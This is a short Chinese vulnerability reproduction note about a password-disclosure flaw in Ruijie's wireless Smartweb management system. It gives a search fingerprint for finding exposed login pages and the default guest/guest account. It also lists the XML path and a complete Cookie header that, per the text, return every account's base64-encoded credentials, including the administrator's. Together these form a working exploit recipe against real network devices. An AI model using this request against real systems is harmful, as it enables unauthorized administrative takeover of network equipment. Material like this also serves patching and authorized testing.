

# 锐捷 Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

<a-checkbox checked>锐捷网络股份有限公司 无线smartweb管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="无线smartWeb--登录页面"</a-checkbox></br>

## 漏洞复现

登录页面如下





默认存在 guest账户，账号密码为 `guest/guest`


其中登录的过程中搜索admin的数据后发现请求了一个文件 `/web/xml/webuser-auth.xml`，而且响应中包含了 admin密码的base64加密


解密就可以获得 admin管理员的密码，尝试直接请求


```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```


直接获得所有的账户的等级标志和base64加密的账号密码